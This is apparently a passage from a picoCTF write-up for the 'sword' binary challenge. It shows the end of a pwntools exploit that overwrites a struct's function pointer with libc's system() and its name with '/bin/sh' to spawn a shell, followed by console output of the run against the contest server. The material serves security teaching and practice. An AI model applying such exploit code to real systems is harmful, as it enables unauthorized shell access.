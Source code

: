 ```python
harden_sword(sword_ids[2], MAX_SWORD_LEN+1, None, None)

binsh = "/bin/sh\x00"
sword = sword_s()
sword.name_len = len(binsh)
sword.weight = 0
sword.sword_name = libc_base + next(libc.search(binsh))
sword.use_sword = libc_base + libc.symbols['system']
sword.is_hardened = 0

log.info("/bin/sh location: {}".format(hex(sword.sword_name)))
log.info("Address of system(): {}".format(hex(sword.use_sword)))

harden_sword(sword_ids[3], sizeof(sword), sword.to_bytes(), -1)
equip_sword(sword_ids[2])


p.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/pico/sword# python exploit.py
[*] '/media/sf_CTFs/pico/sword/sword'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[*] '/media/sf_CTFs/pico/sword/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell3.picoctf.com on port 44116: Done
[*] Forged sword: 0
[*] Forged sword: 1
[*] Forged sword: 2
[*] Forged sword: 3
[*] Sword #0 pseudo-freed
[*] Sword #1 hardened with name '0800000000000000602060000000000000000000000000000000000000000000' (length: 32, weight: -1)
[*] Forged sword: 0
[*] Forged sword: 1
[*] '/media/sf_CTFs/pico/sword/libc.so.6'
[*] '/media/sf_CTFs/pico/sword/sword'
[*] '/media/sf_CTFs/pico/sword/sword'
[*] '/media/sf_CTFs/pico/sword/sword'
[*] '/media/sf_CTFs/pico/sword/sword'
[*] '/media/sf_CTFs/pico/sword/sword'
    Arch:     amd64-64-little
[*] '/media/sf_CTFs/pico/sword/sword'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[*] '/media/sf_CTFs/pico/sword/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
```